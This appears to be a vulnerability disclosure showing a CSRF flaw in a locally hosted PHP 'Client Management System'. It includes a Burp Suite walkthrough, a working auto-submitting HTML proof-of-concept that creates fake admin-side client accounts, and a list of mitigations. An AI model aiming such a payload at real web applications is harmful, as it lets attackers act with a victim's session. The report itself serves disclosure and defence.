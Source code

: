 # CSRF Vulnerability: Creating Fake Users in Client Management System

## Introduction
Cross-Site Request Forgery (CSRF) is an attack where an authenticated user is tricked into submitting a malicious request to a web application. This can lead to unauthorized actions being performed on behalf of the user . In this report, we demonstrate how CSRF can be used to create fake users in a **Client Management System** and suggest mitigation strategies.

## Environment Setup
- Locally hosted **Client Management System** using **MySQL** and **PHP**.
- Functionality for adding clients and their services.

## Steps to Exploit CSRF

### 1. Login as Admin
Using provided credentials, log in to the Client Management System.

![Login as admin](https://github.com/user-attachments/assets/a52b86de-a945-424a-89fc-ef538af11ac0)

### 2. Add a New Client
- Select **Add Client** option.
- Enter the required client details.

![Adding new client](https://github.com/user-attachments/assets/f4589658-3bc8-485b-beec-f58280c63c91)
![Enter the client details](https://github.com/user-attachments/assets/a0a89e2d-743a-4bf0-887d-24ed8c9629d5)

### 3. Capture the Client Adding Request
1. Navigate to the **Save** button.
2. Set up **Burp Suite** to intercept requests
3. Click **Save** and capture the HTTP request before it reaches the server
4. Send the captured request to the **Repeater** tab without the session cookie for analysis

![Capturing the request in Burp](https://github.com/user-attachments/assets/2c3978f6-8518-4ca1-89c3-cc7a22a7cebe)
![Send to repeater](https://github.com/user-attachments/assets/be30ff6c-4dc5-4f18-af61-11bd81c526d1)

## CSRF Code for fake Users
Below is the **HTML PoC** for CSRF attack:

```html
<html>
  <body>
    <form action="http://localhost/clientms/admin/add-client.php" method="POST">
      <input type="hidden" name="accounttype" value="Active Account" />
      <input type="hidden" name="cname" value="moulimurugan" />
      <input type="hidden" name="comname" value="kppr" />
      <input type="hidden" name="address" value="vijayamangalam" />
      <input type="hidden" name="city" value="erode" />
      <input type="hidden" name="state" value="tamil" />
      <input type="hidden" name="zcode" value="638026" />
      <input type="hidden" name="wphnumber" value="968560710" />
      <input type="hidden" name="cellphnumber" value="6931052465" />
      <input type="hidden" name="ophnumber" value="9638560410" />
      <input type="hidden" name="email" value="moulimurugan@gmail.com" />
      <input type="hidden" name="password" value="moulimurugan" />
      <input type="hidden" name="websiteadd" value="clientmsdb" />
      <input type="hidden" name="notes" value="Nil" />
      <input type="hidden" name="submit" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Creating Fake Users
- Modify existing details to create **fake users**

![Adding fake user 1](https://github.com/user-attachments/assets/4b45fb41-3c40-4a6b-9dcf-525fc02eceaa)
![Adding fake user 2](https://github.com/user-attachments/assets/feb6cc10-f6b7-4276-ba5f-41e026f3fba2)

### Testing the CSRF PoC
1. Open the generated **CSRF PoC link** in a browser.
2. The webpage opens with a **Submit** button.
3. Click **Submit**, and the request executes, creating fake users.

![Open PoC in browser](https://github.com/user-attachments/assets/68b10332-3cc8-4d9c-8ccf-46af830ad9ba)
![Hit submit request](https://github.com/user-attachments/assets/59d29d18-7911-4f2b-b115-38946be339f8)

## Confirming Fake Clients Creation
- After submission, fake clients appear in the admin dashboard.

![Fake clients created](https://github.com/user-attachments/assets/ce96ec9b-4f7d-470c-89ed-a63bb79a341f)
![Multiple users created](https://github.com/user-attachments/assets/878be82c-87de-4201-aa4f-c08ed785fc20)

## Mitigation Strategies
To prevent CSRF attacks, implement the following measures:

1. **CSRF Tokens**
   - Use **anti-CSRF tokens** in all form submissions and verify them on the server-side.
2. **SameSite Cookies**
   - Set session cookies with `SameSite=Strict` or `SameSite=Lax` attributes.
3. **Referer and Origin Header Validation**
   - Validate the **Referer** and **Origin** headers before processing requests .
4. **User Authentication Checks**
   - Require **CAPTCHAs** for critical actions to prevent automated attacks .
5. **Restrict HTTP Methods**
   - Use `POST` for sensitive actions and **avoid processing GET requests** with side effects .

## Conclusion
This report demonstrates how CSRF vulnerabilities can be exploited to create unauthorized accounts in a **Client Management System**. Implementing the suggested mitigation strategies will help secure the application against such attacks.

